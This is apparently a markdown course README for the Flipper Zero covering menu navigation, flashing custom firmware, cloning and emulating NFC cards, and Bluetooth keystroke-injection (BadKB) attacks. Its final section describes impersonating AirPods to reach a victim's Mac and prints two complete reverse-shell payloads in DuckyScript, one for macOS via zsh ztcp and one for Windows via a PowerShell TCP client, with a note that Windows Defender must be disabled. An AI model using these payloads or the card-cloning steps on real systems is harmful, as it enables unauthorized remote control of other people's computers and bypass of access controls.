






# Flipper Zero Unleashed

Welcome to the Flipper Zero Unleashed course. This class holds everything from
an intro to intermediate level content.



- [Flipper Zero Unleashed](#flipper-zero-unleashed)
- [Guide](#guide)
- [Introduction to Flipper Zero](#introduction-to-flipper-zero)
  - [Navigating the Flipper](#navigating-the-flipper)
- [Jail Breaking a Flipper Zero](#jail-breaking-a-flipper-zero)
  - [GitHub Repositories:](#github-repositories)
  - [First Step to Flash Flipper](#first-step-to-flash-flipper)
    - [Web Updater process:](#web-updater-process)
    - [QFlipper app update process](#qflipper-app-update-process)
  - [Resources:](#resources)
- [NFC/RFID Hacking](#nfcrfid-hacking)
  - [How to Clone Emulate NFC](#how-to-clone-emulate-nfc)
- [Bad Bluetooth (BadKB)](#bad-bluetooth-badkb)
  - [Bluetooth Impersonation Attacks](#bluetooth-impersonation-attacks)
- [Reference Links](#reference-links)

# Guide

The following will be covered in this course:

* Introduction to Flipper Zero
* Jail Breaking a Flipper Zero
* RFID Hacking
* Bad Bluetooth (BadKB)
* Bluetooth Impersonation Attacks

# Introduction to Flipper Zero

A Flipper Zero is a versatile and programmable multi tool that is commonly used
for hacking. It's a handheld device equipped with various features that allow
users to explore and understand different aspects of cybersecurity.

Here's a breakdown of its key features:

1. **RFID/NFC Emulation:** The Flipper Zero can emulate RFID and NFC cards,
  allowing users to interact with contactless systems and understand their
  vulnerabilities.
2. **Bluetooth Hacking:** It has capabilities to analyze and manipulate
  Bluetooth signals, making it a useful tool for learning about wireless
  security protocols.
3. **Infrared Control:** With infrared capabilities, the Flipper Zero can be
  used for tasks like controlling TVs and other devices that use infrared
  communication.
4. **Tamagotchi-Like Interface:** The device has a playful tamagotchi-like
  interface, making it more engaging for users while they learn about hacking
  and security.
5. **Open-Source and Customizable:** One of the notable aspects is that it's
  open-source, meaning users can modify and customize the software to suit their
  needs. This makes it a great tool for learning programming, cybersecurity, and
  ethical hacking.

## Navigating the Flipper



The main way to navigate the Flipper with the right side of the flipper. The
defualt firmware and unleash menu can be very hard for newcomers and thats one
reason Extreme was made.

  - The Navigation buttons move UP RIGHT LEFT DOWN on the menu
  - Enter/ Select button if for selecting something in the menu.
  - The back button is to back out of what ever menu you are on.
 > NOTE:
 > - If you get lost you can just hit the back button till you get back to
 main art screen.
 > - You can learn more about the Flipper controls here [Flipper main website](https://docs.flipper.net/basics/control)# Jail Breaking a Flipper Zero

# Jail Breaking a Flipper Zero

Jail Breaking a Flipper otherwise known as Flashing a Flipper typically refers
to the process of loading or updating the firmware on the device. Firmware is
the software that runs on embedded systems. Flashing is necessary when you want
to install new features to extend your hacking abilities.

> Note:  If you just unbox your brand new flipper, you have to format the SD card and then update to the lasted stock firmware first before you try jail breaking.

You may be asking how do I flash firmware onto my Flipper, is it easy?
it is, There are two way to flash the frimware

1. **Web updater**
2. **With QFlipper app**

>Note:
> - To update/Jail break a flipper you need a SD card
> - Also Flipper can support up to 256 GB SD cards

## GitHub Repositories:

 This are the main GitHub Repositories for the two most common Flipper Firmware's

* Unleashed: [DarkFlippers/unleashed-firmware (github.com)](https://github.com/DarkFlippers/unleashed-firmware)
* Extreme: [Flipper-XFW/Xtreme-Firmware (github.com)](https://github.com/Flipper-XFW/Xtreme-Firmware)

## First Step to Flash Flipper

1. Connect Flipper to computer with type C to USB A cable
   >Make sure Flipper has a SD card

   
2. Use Web updater or QFlipper app.

### Web Updater process:

> Below are Direct Links to the Flipper Labs Web Updater
> On the left is the Extreme web flasher and on the right is the unleashed
> web flasher. This class will use the unleash web flasher

* Unleashed: [Unleashed Web Updater](https://lab.flipper.net/?url=https://unleashedflip.com/fw_extra_apps/flipper-z-f7-update-unlshd-071e.tgz&channel=release-cfw&version=unlshd-071e)
* Extreme: [Xtreme Web Updater](https://flipper-xtre.me/update/)


After picking what you want on your flipper. Just hit connect and then select
your Flipper to connect to the web browser and then flash.



Now just hit Install.
After the update is done, just unplug the Flipper from computer.

### QFlipper app update process

1. The first step in this process to install QFlipper on the computer.
   [Qflipper download page](https://docs.flipper.net/qflipper)
2. Next you need to install the tgz file for unleash or extreme release download page
   
3. After you download the package tgz file open Qflipper app
   > Connect Flipper to computer if not already done so.

   
4. After the up date is done just unplug the Flipper from computer.

## Resources:

> Below is further Resources that might help you if your struggling to install firmware on your Flipper

* Ultimate Guide: [Talking Sasquatch : Starter Guide - YouTube](https://www.youtube.com/watch?v=12M_oHmxcCQ)

# NFC/RFID Hacking

The Flipper Zero is great for Hacking RFID and NFC cards or tags. To access
these navigate to the "Apps" section on your device.

It has the following Capabilities:

* **Sniffing/Reading:** The Flipper can read most cards/tags
* **Writing** The Flipper can write to other cards/tags
* **Emulate** The Flipper can emulate a signal it has previously read and stored

## How to Clone Emulate NFC

1. Navigate to the NFC menu
2. select Read
3. Place Flipper on top of the card. It should look like this
   
   It might take a while the flipper is scanning. Once Filpper is done scanning
   the card you will get the screen above
4. hit the right button to go to the more tab.
5. Now you can ether save the card or emulate the card
   >If you save the card you have to go back and navigate to the NFC menu and
   then go the saved menu and then you can emulate the card
6. hold the Flipper to the reader.\
   You can learn more about NFC here [Flipper NFC page](https://docs.flipper.net/nfc/read)# Bad Bluetooth (BadKB)

# Bad Bluetooth (BadKB)

I always tell others that Bad Bluetooth is basically a wireless rubber ducky
attack. If you don't know what a rubber ducky is then that's ok. Bad KB and Rubber
Duckies allows you to emulate a keyboard and send pre-programmed key strokes to
any device you are connected to. In this case of a rubber ducky you must plug it
into a computer as it looks like a "USB" device. But in this case The Flipper
must connect over Bluetooth to the victims device to launch the attack.

> If you want to learn more about BadUSB [Flipper badUSB](https://docs.flipper.net/bad-usb)

## Bluetooth Impersonation Attacks

Our team recently gained recognition on TheHackerNews for uncovering a Bluetooth
and macOS vulnerability. This exploit enabled us to mimic a Bluetooth device,
such as AirPods or an iPhone, using a Flipper Zero. By impersonating the MAC
Address, we could intercept or establish an initial connection with a victim's
machine. The success of this approach relied on the machine itself trusting us
as the legitimate AirPods or Bluetooth device of choice for the victim. Once the
initial connection was established, our Flippers could then function as
`HID Devices` (Keyboards) with the `Bad Bluetooth` (`BadKB`) module. This capability
allowed us to send malicious keystrokes, ultimately granting us reverse shell
access to the targeted machine.

* **The Hack News Article:** [New BLUFFS Bluetooth Attack Expose Devices to Adversary-in-the-Middle Attacks (thehackernews.com)](https://thehackernews.com/2023/12/new-bluffs-bluetooth-attack-expose.html)
* **ThreatLocker Blog Post:** [How Hackers Use Bluetooth to Take Over Your Mac Device | ThreatLocker](https://www.threatlocker.com/blog/mac-bluetooth-impersonation-attacks)
* **Reverse Shell Payloads:**
  * MacOS Payload:[ ZTW/Payload (github.com)](macos-reverseshell-payload.txt)
    ```bat
    REM --- MACOS REVERSE SHELL ---
    DEFAULT_DELAY 14
    DELAY 1000
    GUI SPACE
    DELAY 500
    STRING terminal
    DELAY 500
    ENTER
    DELAY 1000
    STRING zsh -c 'zmodload zsh/net/tcp && ztcp <IP-HERE> <PORT-HERE> && zsh >&$REPLY 2>&$REPLY 0>&$REPLY' & curl parrot.live
    DELAY 500
    ENTER
    ```
  * Windows Payload: [ZTW/Payloads (github.com)](windows-revershell-payload.txt)
    ```bat
    REM --- WINDOWS REVERSE SHELL ---
    DEFAULT_DELAY 14
    DELAY 3000
    GUI r
    DELAY 500
    STRING powershell
    DELAY 500
    ENTER
    DELAY 1000
    STRING 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP-HERE>',<PORT-HERE>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    DELAY 500
    ENTER
    DELAY 1000
    GUI r
    DELAY 500
    STRING cmd
    ENTER
    DELAY 1000
    STRING curl parrot.live
    DELAY 500
    ENTER
    ```

    > Note: Windows Defender need to be turn off for this to work
    > , Payload is the powershell#2 from https://www.revshells.com/

# Reference Links

* **Flipper BADUSB:** [Flipper badUSB](https://docs.flipper.net/bad-usb)
* **Fipper NFC:** [Flipper NFC page](https://docs.flipper.net/nfc/read)
* **QFlipper:** [Qflipper download page](https://docs.flipper.net/qflipper)
* **Flipper Control page:** [Flipper Control page](https://docs.flipper.net/basics/control)
* **Unleashed Web Updater Version unlshd0.71e:** [Unleashed Web Updater](https://lab.flipper.net/?url=https://unleashedflip.com/fw_extra_apps/flipper-z-f7-update-unlshd-071e.tgz&channel=release-cfw&version=unlshd-071e)
* **Extreme Web Updater:** [Xtreme Web Updater](https://flipper-xtre.me/update/)
* **Unleashed Github:** [DarkFlippers/unleashed-firmware (github.com)](https://github.com/DarkFlippers/unleashed-firmware)
* **Extreme Github:** [Flipper-XFW/Xtreme-Firmware (github.com)](https://github.com/Flipper-XFW/Xtreme-Firmware)
* **Ultimate Guide For New Flipper Owners:** [Talking Sasquatch : Starter Guide - YouTube](https://www.youtube.com/watch?v=12M_oHmxcCQ)
* **The Hack News Article:** [New BLUFFS Bluetooth Attack Expose Devices to Adversary-in-the-Middle Attacks (thehackernews.com)](https://thehackernews.com/2023/12/new-bluffs-bluetooth-attack-expose.html)
* **ThreatLocker Blog Post:** [How Hackers Use Bluetooth to Take Over Your Mac Device | ThreatLocker](https://www.threatlocker.com/blog/mac-bluetooth-impersonation-attacks)
* **MacOS Payload:**[ ZTW/Payload (github.com)](macos-reverseshell-payload.txt)
* **Windows Payload:** [ZTW/Payloads (github.com)](windows-revershell-payload.txt)
* **ReveShell:** [ReveShell](https://www.revshells.com/)
